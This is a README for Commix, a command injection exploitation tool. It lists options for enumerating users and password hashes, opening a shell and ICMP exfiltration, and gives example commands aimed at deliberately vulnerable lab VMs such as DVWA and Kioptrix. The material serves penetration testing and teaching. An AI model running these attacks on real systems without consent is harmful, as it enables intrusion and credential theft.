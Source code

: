 	                                       __
	   ___    ___     ___ ___     ___ ___ /\_\   __  _ 
	  /'___\ / __`\ /' __` __`\ /' __` __`\/\ \ /\ \/'\
	 /\ \__//\ \L\ \/\ \/\ \/\ \/\ \/\ \/\ \ \ \\/>  </
	 \ \____\ \____/\ \_\ \_\ \_\ \_\ \_\ \_\ \_\/\_/\_\
	  \/____/\/___/  \/_/\/_/\/_/\/_/\/_/\/_/\/_/\//\/_/ { v0.1b }

	+--
	Automated All-in-One OS Command Injection and Exploitation Tool
	Copyright (c) 2015 Anastasios Stasinopoulos (@ancst)
	+--

#General Information

Commix (short for [comm]and [i]njection e[x]ploiter) has a simple environment and it can be used, from web developers, penetration testers or even security researchers to test web applications with the view to find bugs, errors or vulnerabilities related to command injection attacks. By using this tool, it is very easy to find and exploit a command injection vulnerability in a certain vulnerable parameter or string. Commix is written in Python programming language.


#Disclaimer
The tool is only for testing and academic purposes and can only be used where strict consent has been given. Do not use it for illegal purposes!!


#Requirements
[Python](http://www.python.org/download/) version **2.6.x** or **2.7.x** is required for running this program.

#Installation

Commix comes pre-installed on the following Linux distributions:

- [BlackArch](http://blackarch.org/)

Download commix by cloning the Git repository:

    git clone https://github.com/stasinopoulos/commix.git commix


#Usage
    Usage: python commix.py [options]

####Options
    -h, --help            Show help and exit.
    --verbose             Enable the verbose mode.
    --install             Install 'commix' to your system.
    --version             Show version number and exit.
    --update              Check for updates (apply if any) and exit.

####Target
    This options has to be provided, to define the target URL.

    --url=URL           Target URL
    --url-reload        Reload target URL after command execution.

####Request
    These options can be used, to specify how to connect to the target
    URL.

    --host=HOST         HTTP Host header.
    --referer=REFERER   HTTP Referer header.
    --user-agent=AGENT  HTTP User-Agent header.
    --cookie=COOKIE     HTTP Cookie header.
    --random-agent      Use a randomly selected HTTP User-Agent header.
    --headers=HEADERS   Extra headers (e.g. 'Header1:Value1\nHeader2:Value2').
    --proxy=PROXY       Use a HTTP proxy (e.g. '127.0.0.1:8080').
    --auth-url=AUTH_..  Login panel URL.
    --auth-data=AUTH..  Login parameters and data.
    --auth-type=AUTH..  HTTP authentication type (e.g. 'basic').
    --auth-cred=AUTH..  HTTP Authentication credentials (e.g. 'admin:admin').

####Enumeration
    These options can be used, to enumerate the target host.

    --current-user      Retrieve current user name.
    --hostname          Retrieve current hostname.
    --is-root           Check if the current user have root privs.
    --sys-info          Retrieve system information.
    --users             Retrieve system users.
    --passwords         Retrieve system users password hashes.
    --privileges        Retrieve system users privileges.

####Injection
    These options can be used, to specify which parameters to inject and
    to provide custom injection payloads.

    --data=DATA         POST data to inject (use 'INJECT_HERE' tag to specify
                        the testable parameter).
    --suffix=SUFFIX     Injection payload suffix string.
    --prefix=PREFIX     Injection payload prefix string.
    --technique=TECH    Specify a certain injection technique : 'classic',
                        'eval-based', 'time-based' or 'file-based'.
    --maxlen=MAXLEN     The length of the output on time-based technique
                        (Default: 10000 chars).
    --delay=DELAY       Set Time-delay for time-based and file-based
                        techniques (Default: 1 sec).
    --base64            Use Base64 (enc)/(de)code trick to prevent false-
                        positive results.
    --tmp-path=TMP_P..  Set remote absolute path of temporary files directory.
    --root-dir=SRV_R..  Set remote absolute path of web server's root
                        directory (Default: /var/www/).
    --icmp-exfil=IP_..  Use the ICMP exfiltration technique (e.g.
                        'ip_src=192.168.178.1,ip_dst=192.168.178.3').
    --alter-shell       Use an alternative os-shell (Python). Available only
                        for 'tempfile-based' injections.
    --os-cmd=OS_CMD     Execute a single operating system command.


####Usage Examples
**Exploiting [Damn Vulnerable Web App] (http://www.dvwa.co.uk/):**

    python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=INJECT_HERE&submit=submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"
    
**Exploiting [php-Charts 1.0] (http://www.exploit-db.com/exploits/25496/) using injection payload suffix & prefix string:**

    python commix.py --url="http://192.168.178.55/php-charts_v1.0/wizard/index.php?type=INJECT_HERE" --prefix="'" --suffix="//"
    
**Exploiting [OWASP Mutillidae] (https://www.owasp.org/index.php/Category:OWASP_Mutillidae) using extra headers and HTTP proxy:**

    python commix.py --url="http://192.168.178.46/mutillidae/index.php?popUpNotificationCode=SL5&page=dns-lookup.php" --data="target_host=INJECT_HERE" --headers="Accept-Language:fr\nETag:123\n" --proxy="127.0.0.1:8081"

**Exploiting [Persistence] (https://www.vulnhub.com/entry/persistence-1,103/) using ICMP exfiltration technique :**

    su -c "python commix.py --url="http://192.168.178.8/debug.php" --data="addr=127.0.0.1" --icmp-exfil="ip_src=192.168.178.5,ip_dst=192.168.178.8""

**Exploiting [Kioptrix: 2014 (#5)] (https://www.vulnhub.com/entry/kioptrix-2014-5,62/) using custom user-agent and specified injection technique:**

    python commix.py --url="http://192.168.178.6:8080/phptax/drawimage.php?pfilez=INJECT_HERE&pdf=make" --user-agent="Mozilla/4.0 Mozilla4_browser" --technique="file-based" --root-dir="/"


####Command injection testbeds
A collection of pwnable VMs, that includes web apps vulnerable to command injections.
- [Damn Vulnerable Web App] (http://www.dvwa.co.uk/)
- [OWASP: Mutillidae] (https://www.owasp.org/index.php/Category:OWASP_Mutillidae)
- [bWAPP: bee-box (v1.6)] (http://www.itsecgames.com/)
- [Persistence] (https://www.vulnhub.com/entry/persistence-1,103/)
- [Pentester Lab: Web For Pentester] (https://www.vulnhub.com/entry/pentester-lab-web-for-pentester,71/)
- [Pentester Academy: Command Injection ISO: 1] (https://www.vulnhub.com/entry/command-injection-iso-1,81/)
- [SpiderLabs: MCIR (ShelLOL)](https://github.com/SpiderLabs/MCIR/tree/master/shellol)
- [Kioptrix: 2014 (#5)](https://www.vulnhub.com/entry/kioptrix-2014-5,62/)
- [w3af-moth] (https://github.com/andresriancho/w3af-moth/)
- [...]

####Exploitation Demos
- [Exploiting DVWA](https://www.youtube.com/watch?v=PT4uSTCxKJU)
- [Exploiting bWAPP](https://www.youtube.com/watch?v=zqI8NcHfboo)

[![][img]][txt]
[img]: https://cdn3.iconfinder.com/data/icons/peelicons-vol-1/50/Twitter-32.png (Follow @commixproject :))
[txt]: http://www.twitter.com/commixproject
